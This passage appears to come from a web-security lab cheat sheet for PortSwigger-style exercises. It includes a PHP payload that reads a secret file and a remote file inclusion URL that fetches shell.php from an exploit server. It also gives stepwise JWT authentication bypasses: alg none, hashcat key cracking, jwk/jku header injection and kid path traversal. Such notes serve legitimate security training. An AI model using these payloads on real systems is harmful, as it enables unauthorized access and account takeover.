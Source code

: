 ```
```
<?php echo file_get_contents('/home/carlos/secret'); ?>
```
To bypass filters and provoke RFI, use the next payload:
```
https://exploit-server.com/shell.php#kek.jpg
```
## JWT
* Use JWT Editor extension or JSON Web Tokens  
### Exploits
1. JWT authentication bypass via unverified signature  
Simply change "sub" to administrator  
2. JWT authentication bypass via flawed signature verification  
None algorithm (set "alg": "none" and delete signature part)  
3. JWT authentication bypass via weak signing key  
Weak key is easily detected by Burp Suite Passive Scanner  
Crack signing key with hashcat
```
hashcat -m 16500 -a 0 <full_jwt> /usr/share/wordlists/rockyou.txt
```
4. JWT authentication bypass via jwk header injection  
Go to JWT Editor Keys - New RSA Key - Generate  
Get Request with JWT token - Repeater - JSON Web Token tab - Attack (at the bottom) - Embedded JWK - Select your previously generated key - OK  
5. JWT authentication bypass via jku header injection  
JWT Editor Keys - New RSA Key - Generate - right-click on key - Copy Public Key as JWK  
Go to your exploit server and paste the next payload in Body:  
```
{
    "keys": [

    ]
}
```
In "keys" section paste your previously copied JWK
```
{
    "keys": [
        {
            "kty": "RSA",
            "e": "AQAB",
            "kid": "893d8f0b-061f-42c2-a4aa-5056e12b8ae7",
            "n": "yy1wpYmffgXBxhAUJzHHocCuJolwDqql75ZWuCQ_cb33K2vh9mk6GPM9gNN4Y_qTVX67WhsN3JvaFYw"
        }
    ]
}
```
Back to our JWT, replace the current value of the kid parameter with the kid of the JWK that you uploaded to the exploit server.  
Add a new jku parameter to the header of the JWT. Set its value to the URL of your JWK Set on the exploit server.  
Change "sub" to administrator  
Click "Sign" at the bottom of JSON Web Token tab in repeater and select your previously generated key  
6. JWT authentication bypass via kid header path traversal  
JWT Editor Keys - New Symmetric Key - Generate - replace the value of "k" parameter to AA== - OK  
Back to our JWT, replace "kid" parameter with ../../../../../dev/null  
Change "sub" to administrator  
Click "Sign" at the bottom of JSON Web Token tab in repeater and select your previously generated key  
## Prototype pollution
DOM-Invader extension  
Arises, usually, in these JS files: searchLogger.js, searchLoggerAlternative.js and similar searchLogger...  
### Exploits
```